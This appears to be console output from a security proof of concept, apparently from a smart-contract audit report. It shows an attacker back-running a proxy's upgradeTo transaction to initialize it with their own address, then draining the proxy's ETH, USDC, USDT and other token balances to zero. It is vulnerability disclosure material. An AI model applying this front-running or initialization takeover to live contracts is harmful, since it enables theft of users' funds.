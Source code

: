 ```console
Logs:
  
NOTE: For simplicity of POC, we are pranking `proxy owner` for upgradeTo tx
  New implementation deployed at: 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
  Proxy owner is upgrading proxy implementation to new implementation: 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
  Address of attacker: 0xD022658Fd5608078a8c0E5464066B1803a2806F4
  Attacker controlled contract is deployed at : 0x2e234DAe75C793f67A35089C9d99245E1C58470b
  Attacker can backrun/frontrun upgradeTo/initialize tx respectively. Here, its backrunning upgradeTo tx
  Exchange is initialized to : 0xD022658Fd5608078a8c0E5464066B1803a2806F4
  Attacker can steal all the funds from proxy
  
  Balance of proxy, before attack:
  0x0000000000000000000000000000000000000000 (ETH): 335512531059683421416
  0x59D9356E565Ab3A36dD77763Fc0d87fEaf85508C (USDM): 1189366766477136447755153
  0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48 (USDC): 1144659513586
  0x53C8395465A84955c95159814461466053DedEDE (DG): 7182533387141239290607714
  0xdAC17F958D2ee523a2206206994597C13D831ec7 (USDT): 300470896446
  
  Balance of proxy, after attack:
  0x0000000000000000000000000000000000000000 (ETH): 0
  0x59D9356E565Ab3A36dD77763Fc0d87fEaf85508C (USDM): 1
  0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48 (USDC): 0
  0x53C8395465A84955c95159814461466053DedEDE (DG): 0
  0xdAC17F958D2ee523a2206206994597C13D831ec7 (USDT): 0
```